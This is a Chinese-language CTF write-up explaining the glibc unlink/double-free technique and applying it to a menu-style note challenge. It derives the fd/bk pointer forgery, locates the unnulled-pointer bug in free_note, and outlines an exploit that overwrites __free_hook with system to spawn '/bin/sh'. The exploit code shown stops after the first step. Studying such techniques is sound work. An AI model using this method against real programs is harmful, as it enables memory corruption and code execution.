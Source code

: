 ## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`
所以上面代码就可以转换成
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` 
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测
并且能将A的值改写成 
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些

## unlink
### 一个menu题目
!()[img/menu.PNG]

### 漏洞点
首先看一下new_note
qword_6020A8+8 是note总数量
之后是一个结构体
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
!()[img/new_note.PNG]

漏洞点主要在free_note
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use
并且data的指针只free，没有置空，所以这里存在double free
!()[img/free_note.PNG]

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体
4.edit根据note结构体中的data来写，所以这一步可以对note结构体里面的任意写，这里
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)

```







